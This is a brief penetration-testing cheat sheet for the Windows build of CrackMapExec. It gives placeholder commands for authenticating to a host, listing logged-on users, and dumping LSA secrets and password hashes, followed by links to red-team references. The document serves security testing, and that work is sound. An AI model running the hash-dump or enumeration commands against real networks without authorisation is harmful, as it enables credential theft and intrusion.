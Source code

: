 # CrackMapExecWin: Subnet Scanner 

1. Download [crackmapexec binary](https://github.com/maaaaz/CrackMapExecWin)
2. Run following command

        ./crackmapexec.exe -u USERNAME -p PASSWORD <IP_ADDRESS>

3. View currently logged on users

        ./crackmapexec.exe -u USERNAME -p PASSWORD <IP_ADDRESS> --lusers

4. Get hash dump of users

        ./crackmapexec.exe -u USERNAME -p PASSWORD <IP_ADDRESS> --lsa

## References

* https://github.com/maaaaz/CrackMapExecWin
* https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/
* http://www.harmj0y.net/blog/redteaming/powerview-2-0/